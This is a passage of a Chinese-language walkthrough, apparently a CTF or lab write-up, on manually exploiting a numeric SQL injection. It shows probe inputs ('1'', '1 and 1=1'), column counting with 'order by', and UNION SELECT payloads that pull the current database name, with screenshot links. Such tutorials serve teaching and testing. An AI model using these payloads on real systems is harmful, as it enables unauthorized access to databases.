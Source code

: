 #### 方法一：手动注入

首先先测试看看是否有注入，利用语句：

1

![image-20220609172629214](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172629214.png)

1’

![image-20220609172338482](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172338482.png)

1’ and 1=1#

![image-20220609172716892](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172716892.png)

1 and 1=1

![image-20220609172737840](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172737840.png)

1 and 1=2

![image-20220609172755409](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172755409.png)

这里看到1’ 和1‘ and 1=1#,1 and 1=2不执行，而1 and 1=1 执行了
所以确定有注入

于是用语句查看有几个字段：
1 order by 1

![image-20220609172900509](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172900509.png)

1 order by 2

![image-20220609172942306](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172942306.png)

1 order by 3

![image-20220609172956927](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172956927.png)

可以看到1 order by 3时没有执行，所以有两个字段

在利用语句查看能执行语句的字段：

```
-1 union select 1,2
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173059574.png" alt="image-20220609173059574" style="zoom:80%;" />

返回了1，2两个字段的内容，所以这两个
字段能执行回显
于是构造语句查看当前数据库：
-1 union select 1,database()

![image-20220609173157303](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173157303.png)
